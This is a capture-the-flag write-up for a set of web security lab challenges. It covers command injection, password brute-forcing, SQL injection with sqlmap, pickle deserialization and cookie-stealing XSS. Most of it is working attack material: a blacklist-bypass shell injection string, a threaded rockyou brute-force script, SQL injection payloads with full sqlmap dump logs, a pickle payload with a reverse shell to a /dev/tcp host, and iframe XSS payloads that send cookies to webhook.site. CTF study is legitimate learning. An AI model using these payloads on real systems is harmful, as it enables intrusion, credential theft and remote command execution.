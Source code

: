 # Web CTF
We solved all problems.  
# gomai
base 64, cookie, console
<details>

![alt text](./gomai/12000.png)  
flag has 5 parts:
1. At the bottom of the html
2. At the bottom of the style.css
3. Contained in the cookie. Cookie becomes visible upon refresh.
4. In the http response header
5. Printed in console once you scroll enough times. Can be triggered by setting m=0 in the console.
</details>

# Bocchi Search Tool
shell command  


<details>

![alt text](./Bocchi_Search_Tool/12001_1.png)  
A tool help you find bocchi in json !
http://ctf.adl.tw:12001/

You input a json like string, and the program finds the "bocchi" member and prints its value.
- foot note
anything on a shell command contained in pairs of`` gets executed as commands!!!
- solution
blacklist(php)
```php
$blacklist = ['|', '&', ';', '>', '<', "\n", '?', '*', '$', '\\', 'cat', 'flag'];
```

source code(php): 
```php
system("echo '" . $_POST['json'] . "'| jq .bocchi");
```

- attack string ver 1: '`tac  fl''ag` #
```php
system("echo '" . '`tac  fl''ag` # . "'| jq .bocchi");
```
which equals:
```bash
echo ''`tac  fl''ag` # . "'| jq .bocchi
```

- attack string ver 2: '`c''at  fl''ag` #
```php
system("echo '" .'`c''at  fl''ag` # . "'| jq .bocchi");
```
</details>

# monster
wordlist, custom http headers
<details>

![error](./monster/12002.png)
## Change Your User Agent in Chrome
Open Chrome's Developer Tools by right-clicking anywhere and choosing Inspect, hitting Ctrl + Shift + I, or by pressing F12  
At the bottom of the resulting panel, you should see a section with the tabs Console, Network conditions, and What's New. Press Esc to show this if you don't see it.

On the Network conditions tab, uncheck Select automatically and you can then choose a new user agent from the list. Refresh to update the page with the new agent.

Note that this setting will revert back to normal when you close the developer panel, and only applies to your current tab.
## How to change your IP
https://chrome.google.com/webstore/detail/x-forwarded-for-header/hkghghbnihliadkabmlcmcgmffllglin/related

## Or just use this extension
https://chrome.google.com/webstore/detail/http-headers/fabjnpecogealbfoebkcjfbmdhnnfhbj?hl=en-GB

## Now, you must login
bocchi & 🤘rockyou!!!
- turns out rockyou is a passw list...
so we write a script to find the passw by brute force
```py
import requests
import numpy as np
import threading
from tqdm import tqdm
tn = 20
lines =[item.strip() for item in open(
    "./debug/rockyou.txt", "r", encoding="latin-1").readlines()]

print(len(lines))
splits = np.array_split(lines, tn)
pbar = tqdm(total=len(lines))


def request(i):
    lines = splits[i]
    for idx, pw in enumerate(lines):
        #print(pw)
        r = requests.get('http://ctf.adl.tw:12002/admin',
                         headers={"X-Forwarded-For": "127.0.0.1",
                                  "User-Agent": "STARRYBrowser",
                                  "Accept-Language": "ja-JP"}, auth=("bocchi", pw))
        if len(r.text) != 1370:
            print(pw)
            with open('./debug/pw.txt', 'w') as f:
                f.write(pw)
            #break
            exit()
        #if idx % 100 == (100 * i) / tn:
        if idx % 100 == 0:
            pbar.update(100)


for i in range(tn):
    t = threading.Thread(target=request, args=(i,))
    t.start()
```
- the password is located around 40% of rockyou
```ps
PS D:\1111_work\1111attack_and_defense\security_2022> py .\web\monster\brute_force_multi_thread.py
14344391
 41%|███████████████████████████████████████████████████████▊                                                                                 | 5849900/14344391 [2:36:26<3:08:18, 751.83it/s]bocchio
```

- now that we have the password, we can use it to login~
</details>

# isostagram_1
sql injection
<details>

![error](./isostagram_1/12003.png)
- php src
```php

$host = 'isostagram_db';
$dbuser = 'MYSQL_USER';
$dbpassword = 'MYSQL_PASSWORD';
$dbname = 'ctf_users';
$link = mysqli_connect($host, $dbuser, $dbpassword, $dbname);

$loginStatus = NULL;
$username = $_POST['username'];
$password = $_POST['password'];

if (isset($username) && isset($password)) {
    error_log('POST: [' . $username . '] [' . $password . ']');
    if ($link) {
        $blacklist = array("union", "select", "where", "and", "or");
        $replace = array("", "", "", "", "");
        $username = str_ireplace($blacklist, $replace, $username);
        $password = str_ireplace($blacklist, $replace, $password);
        $sql = "SELECT * FROM users WHERE `username` = '$username' AND `password` = '$password';";
        $query = mysqli_query($link, $sql);
        @$fetchs = mysqli_fetch_all($query, MYSQLI_ASSOC);
        if (@count($fetchs) > 0) {
            foreach ($fetchs as $fetch) {
                if ($fetch["username"] === 'kita0421' && $fetch["password"] === $password) {
                    $loginStatus = True;
                    break;
                }
                $loginStatus = False;
            }
        } else {
            $loginStatus = False;
        }
    } else {
        $loginStatus = NULL;
    }
} else {
    $loginStatus = NULL;
}
```

- ref 
[link](https://blog.csdn.net/qq_23667585/article/details/127213099?spm=1001.2101.3001.6650.3&utm_medium=distribute.pc_relevant.none-task-blog-2~default~YuanLiJiHua~Position-3-127213099-blog-88721329.pc_relevant_recovery_v2&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2~default~YuanLiJiHua~Position-3-127213099-blog-88721329.pc_relevant_recovery_v2&utm_relevant_index=4)
- payload
1. didn't work
```SQL
' O/**/R '1' = '1; UPDATE users SET `password`= '123' WH/**/ERE `username` = 'kita0421';--

```
2. didn't work
```SQL
1' OORR '1' = '1' limit 1; --
```
3. didn't work
```SQL
' UORNION select '0','kita0421','1';--
' UORNION select 'kita0421','1','0';--
' UORNION select 'kita0421','1';--
```
4. worked!!!!!!
```sql
--                     id account   pw
-1' UORNION SORELECT 0,'kita0421','pass';#
```
</details>

# isostagram_2
sqlmap
<details>

## sql injection - database
The idea is to use sqlmap to start a time based attack.
- payload must be within 50 characters.
- ref 1: How to use a custom tamper.py
https://www.cnblogs.com/hetianlab/p/16012663.html
- ref 2: How to use sqlmap.
https://hackertarget.com/sqlmap-post-request-injection/
- 題目:
http://ctf.adl.tw:12003/
- First use burp to obtain a sample of the post request
    - download [Burp(community suite)](https://portswigger.net/burp)
    - open browser
    - configure burp to intercept http requests
    - copy the content of the post request to search-test.txt
    - sqlmap
1. Didn't work
```ps
PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -u 'http://ctf.adl.tw:12003/' --data "username=123&password=123" --level=5 --risk=3 --tamper=my_tamper/my_tamper.py
```
2. Didn't work
```ps
PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -r './my_tamper/search-test.txt'-p username password --tamper=my_tamper/my_tamper.py
```

3. Worked
```ps
PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -r './my_tamper/search-test.txt'-p username password -D ctf_users -T users -C password username --tamper=my_tamper/my_tamper.py --dump
```

- Sqlmap logs
```
PS D:\1111_work\1111attack_and_defense\sqlmap> py .\sqlmap.py -h
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.12.7#dev}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

Usage: sqlmap.py [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to provided value

  Detection:
    These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)

  Techniques:
    These options can be used to tweak testing of specific SQL injection
    techniques

    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --dbs               Enumerate DBMS databases
    --tables            Enumerate DBMS database tables
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  General:
    These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

  Miscellaneous:
    These options do not fit into any other category

    --wizard            Simple wizard interface for beginner users

[!] to see full list of options run with '-hh'

Press Enter to continue...
PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -r './my_tamper/search-test.txt'-p username --tamper=my_tamper/my_tamper.py --dump-all
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.12.7#dev}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:17:53 /2022-12-22/

[10:17:53] [INFO] parsing HTTP request from './my_tamper/search-test.txt'
[10:17:53] [INFO] loading tamper module 'my_tamper'
[10:17:54] [INFO] resuming back-end DBMS 'mysql'
[10:17:54] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=eBpr' RLIKE SLEEP(5)-- itvC&password=&submit=OPis
---
[10:17:54] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:17:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
[10:17:54] [INFO] sqlmap will dump entries of all tables from all databases now
[10:17:54] [WARNING] cannot properly display (some) Unicode characters inside your terminal ('cp950') environment. All unhandled occurrences will result in replacement with '?' character. Please, find proper character representation inside corresponding output files

[10:17:54] [WARNING] ?前??字列表如下，?注意修改:
['UNION', 'SELECT', 'WHERE', 'AND', 'OR']
[10:17:54] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[10:17:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[10:19:31] [INFO] adjusting time delay to 1 second due to good response times
3
[10:19:31] [INFO] retrieved: information_schema
[10:26:12] [INFO] retrieved: performance_schema
[10:32:38] [INFO] retrieved: ctf_users
[10:36:16] [INFO] fetching tables for databases: 'ctf_users, information_schema, performance_schema'
[10:36:16] [INFO] fetching number of tables for database 'ctf_users'
[10:36:16] [INFO] retrieved: 1
[10:36:23] [INFO] retrieved: users
[10:38:09] [INFO] fetching number of tables for database 'performance_schema'
[10:38:09] [INFO] retrieved: 8
[10:38:30] [INFO] retrieved: gl
[10:40:02] [ERROR] invalid character detected. retrying..
[10:40:02] [WARNING] increasing time delay to 2 seconds
obal_statu


[*] ending @ 10:48:13 /2022-12-22/

PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -r './my_tamper/search-test.txt'-p username password -D ctf_users -T users -C password username --tamper=my_tamper/my_tamper.py --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.12.7#dev}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:48:28 /2022-12-22/

[10:48:28] [INFO] parsing HTTP request from './my_tamper/search-test.txt'
[10:48:28] [INFO] loading tamper module 'my_tamper'
[10:48:28] [INFO] resuming back-end DBMS 'mysql'
[10:48:28] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=eBpr' RLIKE SLEEP(5)-- itvC&password=&submit=OPis
---
[10:48:29] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:48:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 7.4.33, Apache 2.4.54
back-end DBMS: MySQL >= 5.0.12
[10:48:29] [INFO] fetching entries of column(s) 'password' for table 'users' in database 'ctf_users'
[10:48:29] [INFO] fetching number of column(s) 'password' entries for table 'users' in database 'ctf_users'
[10:48:29] [WARNING] cannot properly display (some) Unicode characters inside your terminal ('cp950') environment. All unhandled occurrences will result in replacement with '?' character. Please, find proper character representation inside corresponding output files

[10:48:29] [WARNING] ?前??字列表如下，?注意修改:
['UNION', 'SELECT', 'WHERE', 'AND', 'OR']
[10:48:29] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[10:49:10] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
7
[10:49:40] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[10:50:10] [INFO] adjusting time delay to 1 second due to good response times
ADL{w474sh1n0furun3muh4k174k174d3su...https://youtu.be/MSnLgdQFk1c}
[11:19:11] [INFO] retrieved: alg
[11:20:29] [WARNING] Ctrl+C detected in dumping phase
Database: ctf_users
Table: users
[1 entry]
+---------------------------------------------------------------------+
| password                                                            |
+---------------------------------------------------------------------+
| ADL{w474sh1n0furun3muh4k174k174d3su...https://youtu.be/MSnLgdQFk1c} |
+---------------------------------------------------------------------+

[11:20:29] [INFO] table 'ctf_users.users' dumped to CSV file 'C:\Users\Perry\AppData\Local\sqlmap\output\ctf.adl.tw\dump\ctf_users\users.csv'
[11:20:29] [INFO] fetched data logged to text files under 'C:\Users\Perry\AppData\Local\sqlmap\output\ctf.adl.tw'

[*] ending @ 11:20:29 /2022-12-22/

PS D:\1111_work\1111attack_and_defense\sqlmap> 
```

</details>

# fukuwarai
deserialization
<details>

![123](./fukuwarai/12004.png)
1. vuln
```py
@api.post('/import')
def import_layout():
    layout = request.json.get('layout')
    layout = pickle.loads(base64.b64decode(layout))
    if dataGuard(layout):
        session['layout'] = layout
        return '1'
    return '0'
```
2. payload
```py
import pickle
import base64
import os

class RCE_revers_shell:
    def __reduce__(self):
        cmd = "bash -c \"bash &>/dev/tcp/87.87.87.87/4444<&1\""
        return os.system, (cmd,)
class RCE_get_env:
    def __reduce__(self):
        cmd="FLAG"
        return os.getenv, (cmd,)


payload = [{'id': 'hako01', 'left': 1131, 'top': RCE_get_env()}]
my_layout = base64.b64encode(pickle.dumps(payload)).decode()
print(my_layout)

```
### Pickle does not cross OS!!!!
- encoded payload looks different across linux and windows.


 
</details>

# message_board

xss
<details>


1. pressing the send button sends a post request to api.php
```html
http://ctf.adl.tw:12005/api.php?method=send
```
2. objective is to get the cookie on the server
3. iframe causes admin to send a http request to a remote link.
4. We set up a remote listener to handle http requests. We can use this [site](https://webhook.site/?fbclid=IwAR0PzMsA8CMTLpCQfhtUV38Qbh5oS-bPvotRPBz9tJCoEjsDi5j-_qM2lok#!/15777b00-a93c-4ce3-a75e-5f8afc14e2a9/26af9310-e1a9-476a-9f80-ae7d80c3823f/1).

(We may also use csp bypass.)
## payloads tried
- v1 didn't work
```html
<b onMouseOver="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</b>
```
- v2 (can't use onload)
```html
<iframe onload="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</iframe>
```
- v3 (can't use +)
```html
<iframe onMouseOver="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</iframe>
```
Turns out we cannot use + in the payload.
- test
```html
"/> <script>alert(0)</script> <!--
```
- v5 worked
```html
<iframe src=javascript:document.location='https://webhook.site/5b057c82-404d-4e23-a94a-c0f5d17d9259/?flag='.concat(document.cookie)>
```
- v6 also worked, generated by ./generate_payload.py
```html
<iframe src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#102;&#101;&#116;&#99;&#104;&#40;&#39;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#119;&#101;&#98;&#104;&#111;&#111;&#107;&#46;&#115;&#105;&#116;&#101;&#47;&#50;&#49;&#55;&#48;&#99;&#55;&#99;&#56;&#45;&#57;&#52;&#57;&#99;&#45;&#52;&#49;&#100;&#49;&#45;&#56;&#52;&#55;&#57;&#45;&#53;&#100;&#49;&#48;&#97;&#57;&#55;&#54;&#48;&#56;&#52;&#101;&#63;&#102;&#108;&#97;&#103;&#61;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;&#46;&#116;&#104;&#101;&#110;&#40;&#40;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#41;&#32;&#61;&#62;&#32;&#123;&#114;&#101;&#116;&#117;&#114;&#110;&#32;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#46;&#106;&#115;&#111;&#110;&#40;&#41;&#59;&#125;&#41;&#46;&#99;&#97;&#116;&#99;&#104;&#40;&#40;&#101;&#114;&#114;&#111;&#114;&#41;&#32;&#61;&#62;&#32;&#123;&#99;&#111;&#110;&#115;&#111;&#108;&#101;&#46;&#108;&#111;&#103;&#40;&#39;&#110;&#111;&#39;&#41;&#59;&#125;&#41><iframe>
```
    The iframe element in this code is being used to load a script from a remote URL using the src attribute.  

    The URL is encoded using HTML character references, which are used to represent characters that are not part of the standard ASCII character set. For example, &#106; represents the letter "j", &#97; represents the letter "a", and so on.   

    When the HTML code is parsed by a web browser, these character references are converted back into their corresponding characters, so the src attribute in this iframe element would be interpreted as a URL that begins with "javascript:fetch(...".  

    The iframe element also contains a script that uses the fetch() function to retrieve data from the specified URL and then execute it as a JavaScript script. This can be a security risk, as it allows the script to potentially access and manipulate the current document and any data it contains. It's generally a good idea to avoid executing arbitrary scripts from untrusted sources in this way.

![`](./message_board/recieving_http_request.png)
</details>